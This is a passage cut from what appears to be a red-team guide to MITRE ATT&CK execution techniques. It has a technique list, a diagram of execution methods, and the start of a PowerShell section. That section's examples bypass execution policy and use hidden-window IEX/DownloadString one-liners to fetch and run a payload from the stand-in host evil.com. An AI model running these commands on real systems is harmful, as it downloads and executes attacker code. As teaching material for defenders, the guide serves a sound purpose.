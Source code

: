 mentation (T1047)
- User Execution (T1204)
- Exploitation for Client Execution (T1203)
- Native API (T1106)
- System Services (T1569)

---

## 🧠 Strategic Framework

```mermaid
graph TB
    A[Execution Strategy] --> B[Scripting Interpreters]
    A --> C[System Utilities]
    A --> D[Scheduled Execution]
    A --> E[Native APIs]
    
    B --> B1[PowerShell]
    B --> B2[Python/Ruby/Perl]
    B --> B3[JavaScript/VBScript]
    B --> B4[Bash/Shell]
    
    C --> C1[WMI]
    C --> C2[PsExec]
    C --> C3[WMIC]
    C --> C4[Rundll32]
    
    D --> D1[Scheduled Tasks]
    D --> D2[Cron Jobs]
    D --> D3[At/Batch]
    
    E --> E1[Windows API]
    E --> E2[System Calls]
    E --> E3[RPC/DCOM]
    
    style A fill:#d32f2f,color:#fff
    style B fill:#7b1fa2,color:#fff
    style C fill:#1976d2,color:#fff
    style D fill:#388e3c,color:#fff
    style E fill:#f57c00,color:#fff
```

---

## 1. Command and Scripting Interpreters (T1059)

### 1.1 PowerShell (T1059.001)

PowerShell is the most powerful execution method on Windows systems.

#### Basic PowerShell Execution
```powershell
# Direct command execution
powershell.exe -Command "Get-Process"

# Bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File script.ps1

# Hidden window
powershell.exe -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"

# Encoded command (base64)
$command = "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
```